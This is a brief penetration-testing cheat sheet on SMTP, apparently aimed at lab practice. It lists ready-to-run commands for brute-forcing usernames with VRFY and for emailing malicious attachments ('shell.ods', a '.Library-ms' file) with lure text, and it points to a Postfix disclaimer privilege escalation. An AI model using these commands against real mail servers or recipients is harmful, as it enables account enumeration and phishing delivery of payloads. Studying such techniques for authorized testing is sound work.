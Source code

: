 # SMTP Enumeration

### Smtp username bruteforce

```
smtp-user-enum -M VRFY -u test -t 192.168.167.199 -D supermagicorg.com
```

for users.list file use `-U`

### Send an email

{% code overflow="wrap" %}
```bash
sudo swaks -t user1@domain --from user2@domain --attach @config.Library-ms --server <ip> -body @body.txt -header "Subject:Problems" -ap
```
{% endcode %}

Add `-ap` for authentication

Or alternatively:

```
sendemail -f 'jonas@localhost' \
-xu 'jonas@localhost' \
-xp 'password' \
-t 'mailadmin@localhost' \
-s 192.168.219.140:25 \
-u 'a spreadsheet' \
-m 'Please check this spreadsheet' \
-a shell.ods  
```

Useful to send payloads.

### Postfix Disclaimer PrivEsc

If files like _**/etc/postfix/disclaimer**_ refer to [postfish](https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/postfish)

When an address in `/etc/postfix/disclaimer_addresses` sends or receives emails the `/etc/postfix/disclaimer` gets executed. This file takes the contents of `/etc/postfix/disclaimer.txt` and appends it to the emails.
